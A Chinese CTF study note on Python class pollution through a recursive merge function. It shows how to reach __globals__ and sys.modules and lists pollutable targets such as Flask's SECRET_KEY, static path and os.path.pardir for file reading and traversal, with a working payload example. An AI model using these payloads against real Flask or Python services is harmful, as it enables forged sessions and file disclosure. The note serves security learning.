 tags:: CTFWEB/Python

- # 前置知识点
	- python中每一个函数都有globals dunder，我们可以通过修改对象的globals dunder属性来修改`__file__`等全局变量
		- ```python
		  secret_var = 114
		  
		  def test():
		      pass
		  
		  class a:
		      def __init__(self):
		          pass
		  
		  print(test.__globals__ == globals() == a.__init__.__globals__)
		  ```
	- 题目中以下形式的函数会修改类的属性
		- ```python
		  def merge(src, dst):
		      # Recursive merge function
		      for k, v in src.items():
		          if hasattr(dst, '__getitem__'):
		              if dst.get(k) and type(v) == dict:
		                  merge(v, dst.get(k))
		              else:
		                  dst[k] = v
		          elif hasattr(dst, k) and type(v) == dict:
		              merge(v, getattr(dst, k))
		          else:
		              setattr(dst, k, v)
		  ```
	- `sys`模块的modules属性以字典的形式包含了程序自开始运行时所有已加载过的模块，可以直接从该属性中获取到所有模块
		- ```python
		  import sys
		  print(sys.modules.keys())
		  ```
	- importlib中的所有文件都引入了sys，且其中定义的loader对象在每一个模块的spec dunder中都可以找到
		- 所以我们可以通过`<模块名>.__spec__.loader.__init__.__globals__`找到sys模块，从而通过sys模块找到所有的模块进行污染
		- ```python
		  fenjing.__spec__.loader.__init__.__globals__["sys"]
		  ```
	- 函数的默认参数都在函数的`__defaults__`和`__kwdefaults__`这两个属性中，可以被污染
	- os.environ可以被污染
	- flask的SECRET_KEY，`_got_first_request`和`_static_url_path`可以被污染
		- `_static_url_path`污染成`/`即可通过类似`/static/proc/self/cmdline`的uri读取
	- `os.path.pardir`（也就是`..`）可以被污染，修改即可在flask渲染文件处实现目录穿越
	- jinja
		- 语法标识符`{{`等可以被污染
			- [参考](https://jinja.palletsprojects.com/en/3.1.x/api/#jinja2.Environment)
		- 渲染时拼接的文件头可以被污染
- # 示例
	- ```python
	  def merge(src, dst):
	      # Recursive merge function
	      for k, v in src.items():
	          if hasattr(dst, '__getitem__'):
	              if dst.get(k) and type(v) == dict:
	                  merge(v, dst.get(k))
	              else:
	                  dst[k] = v
	          elif hasattr(dst, k) and type(v) == dict:
	              merge(v, getattr(dst, k))
	          else:
	              setattr(dst, k, v)
	  
	  def f():
	      pass
	  
	  class A:
	      def __init__(self):
	          pass
	      def aaa(self):
	          pass
	  
	  secret = "114514"
	  a = A()
	  
	  # 假设环境有以上所示的函数和对象
	  # 我们就可以通过这个payload修改secret
	  payload = {
	      "__class__": {
	          "__init__": {
	              "__globals__": {
	                  "secret": "1919810"
	              }
	          }
	      }
	  }
	  merge(payload, a)
	  print(secret) # 1919810
	  ```
- > [参考](https://tttang.com/archive/1876/)